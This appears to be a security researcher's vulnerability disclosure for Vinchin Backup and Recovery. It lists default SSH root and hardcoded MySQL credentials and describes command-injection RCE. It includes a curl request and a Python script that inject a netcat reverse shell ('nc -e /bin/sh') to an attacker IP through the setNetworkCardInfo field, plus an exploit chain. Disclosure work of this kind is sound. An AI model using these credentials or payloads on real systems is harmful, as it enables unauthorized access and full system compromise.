

## **Vinchin Backup and Recovery: Deep Dive into Critical Vulnerabilities**


https://github.com/Chocapikk/VinchinRCE/assets/88535377/97d0f492-23db-4672-b4c6-c0c512293100


**Introduction**:

Vinchin Backup and Recovery is a leading data protection solution employed by large enterprises and is extensively utilized across diverse environments, including virtual, physical, and cloud platforms. While its vast feature set caters to the diverse needs of these big corporations, it is not immune to security vulnerabilities. A meticulous analysis has recently exposed a series of critical flaws that can present significant risks to its users. For more details on their product and offerings, you can visit their official website at [vinchin.com](https://www.vinchin.com/).

---

**Collaboration and Acknowledgment**:

Our discovery and subsequent analysis of these critical vulnerabilities in Vinchin Backup and Recovery was a collective effort. It is pivotal to highlight the collaboration with the research team at **LeakIX**. Their expertise, rigorous methodologies, and unwavering dedication significantly contributed to uncovering and understanding these vulnerabilities. This endeavor underscores the importance of teamwork, shared knowledge, and mutual support in the cybersecurity domain.

Thanks to this synergized approach, we were not only able to identify these vulnerabilities but also to understand their implications deeply and propose viable mitigation steps. We extend our gratitude to the researchers at LeakIX and everyone involved in this project. Their shared vision for a safer digital landscape and commitment to ethical hacking practices have made this discovery possible.

## So let's start! :D

### 1. Default SSH Root Credentials (CVE-2024-22902)

Vinchin's implementation comes equipped with default root credentials, facilitating remote access:

- **Default Credentials**:
  - Username: `root`
  - Password: `Backup@3R`

**Associated Risks**:

  * Allowing **SSH root logins with a password** is a major security flaw.
  * The default password is **publicly documented**, making it a low-hanging fruit for attackers.
  * The installation workflow **does not** emphasize **the necessity of updating this default password**.

---

### 2. Hardcoded Database Credentials and Configuration Flaws (Previously identified as CVE-2022-35866 but remained unpatched in version 7.2) (CVE-2024-22901)

Vinchin's application employs a static set of credentials for its MySQL database:

- **Database Credentials**:
  - Username: `vinchin`
  - Password: `yunqi123456`

**Associated Risks**:

- Potential exposure of the **MySQL port to the public**.
- **Absence of hostname-based restrictions** for database logins.
- Attackers could potentially **alter the database**, such as **creating rogue admin users**, granting them **unauthorized system privileges**.


### 3. Post-Authentication Remote Code Execution (RCE) in `SystemHandler.class.php` and `ManoeuvreHandler.class.php`

Some functions within `/api/app/platform/SystemHandler.class.php` and `/api/app/platform/ManoeuvreHandler.class.php` has been identified as being susceptible to **Remote Code Execution**.

**Detailed Breakdown**:

[Source Code of vulnerable components](.../src/SystemHandler.class.php)

For more details on the specific vulnerabilities and their exploitation methods, refer to the dedicated Markdown files for each function:

- [setNetworkCardInfo Vulnerability Details (CVE-2024-22900)](./setNetworkCardInfo.md)
- [syncNtpTime Vulnerability Details (CVE-2024-22899)](./syncNtpTime.md)
- [deleteUpdateAPK Vulnerability Details (CVE-2024-22903)](./deleteUpdateAPK.md)
- [getVerifydiyResult Vulnerability Details (No CVE yet)](./getVerifydiyResult.md)

### **Exploitation Methods**:

#### A. Webdriver Chrome Simulation:

Given that the form data is encrypted using **JSEncrypt** and JavaScript is responsible for all XHR requests, executing a direct exploit becomes a complex task. A simpler, more intuitive method to simulate this exploit involves using a **Chrome WebDriver**. This technique simulates natural interactions with the web interface, allowing for circumvention of encryption and request management barriers.

For an effective demonstration of this method, refer to the provided image:




#### B. `curl` Method (using setNetworkCardInfo as example):

For more extensive and automated exploitation scenarios, the `curl` method can be invaluable. While it might be more intricate than the WebDriver approach, it holds merit in scenarios requiring mass automation. The detailed `curl` exploit method is as follows:

```bash
curl -i -s -k -X POST \
-H 'Host: [IP]' \
-H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0' \
-H 'Accept: */*' \
-H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
-H 'Origin: [URL]' \
-H 'Connection: close' \
-b 'BackupSystem=[COOKIE_VALUE]' \
--data 'p={"nodeuuid":"[NODEUUID_VALUE]","NAME":"; nc -e /bin/sh [ATTACKER_IP] [ATTACKER_PORT]","IPADDR":"[IP]","NETMASK":"","GATEWAY":"","DNS":"","PREFIX":""}' \
[URL]/api/?m=8&f=setNetworkCardInfo
```

- Here an example how you could do the exploit in Python in this way :

```python
import requests
import json

cookies = {
    'BackupSystem': 'v108v9nv0akfqkgehl7h9e130f',
}

headers = {
    'Host': '192.168.1.23',
    'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/118.0',
    'Accept': '*/*',
    'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
    'Origin': 'https://192.168.1.23',
    'Connection': 'close',
}

payload = {
    "nodeuuid": "87de2178-38f0-45c7-8a06-b524b6c5940f",
    "NAME": "; /bin/nc -e /bin/bash 192.168.1.5 1338",
    "IPADDR": "192.168.1.23",
    "NETMASK": "",
    "GATEWAY": "",
    "DNS": "",
    "PREFIX": ""
}

data = {
    'm': '8',
    'f': 'setNetworkCardInfo',
    'p': json.dumps(payload)
}

print(data)

response = requests.post(
    'https://192.168.1.23/api/', 
    cookies=cookies, 
    headers=headers, 
    data=data, 
    verify=False
)          
               
print(response.text)
```

### **Exploit Chain**:

1. Attackers, by harnessing the hardcoded database credentials, can **infiltrate the MySQL database**.
2. Such access empowers them to **modify user data** or **instantiate new administrative users illicitly**.
3. With validated access to the web console, they can then leverage the **RCE vulnerability**, resulting in total system compromise.


In summation, the Vinchin Backup and Recovery systems are at risk from a series of intertwined vulnerabilities - **hardcoded credentials**, **database misconfigurations**, **and direct command execution flaws**. It's of utmost importance for system users and administrators to be cognizant of these vulnerabilities and to act swiftly in applying remediations.
